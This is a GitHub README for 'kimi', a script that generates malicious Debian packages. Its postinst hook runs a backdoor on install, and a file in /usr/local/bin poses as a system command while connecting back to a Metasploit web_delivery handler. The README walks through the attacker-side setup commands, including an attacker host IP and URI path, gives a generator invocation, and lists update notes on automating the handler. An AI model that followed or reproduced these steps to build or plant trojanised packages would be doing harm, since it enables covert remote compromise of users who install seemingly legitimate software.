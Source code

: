 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Plus points & Usage & Tested On :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    
    Backdoor gets executed just when victim tries to install deb package due to postinst file
    
    Bash file injects and also acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt (lame :P i know) 
    
    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0 -a i386
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2.0
# Updates :::
    [Feb-22-2017]
    -- Added "postinst" file creation function to make embeded malicious file execution automated
    -- Added RC file generation function to fully automate with handler opening, means no need to 
        set handler manually
    -- Patched some common bugs [special thanks to r00t 3xp10it :)]
    
    [Oct-12-2017]
    -- Added command line argument(-a/--arch) to select architecture(i386/amd64)
    
    [April-24-2019] - Test Release.
    -- Now custom URI and LPORT can be set
    -- Python payload has been updated according to python 2/3 and latest version of Metasploit 5 too.
    -- Whole code is re-implemented though its still supporting python 2.7
    
# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/kimi.PNG)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting1.1.png)

# Misc :::
       Blog Post     : http://hackinguyz.blogspot.in/2017/03/kimi-malicious-debian-package-creator.html
       YouTube Video : https://youtu.be/Dsn6BRHy9_w
       Viruatotal Sample (Because i saw nasty use of this script in the wild): 7d91abb413c8cd3274f348ff12f244b9a503abfe018f138d34bbe2deab04472f

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
   Twitter : @bofheaded 
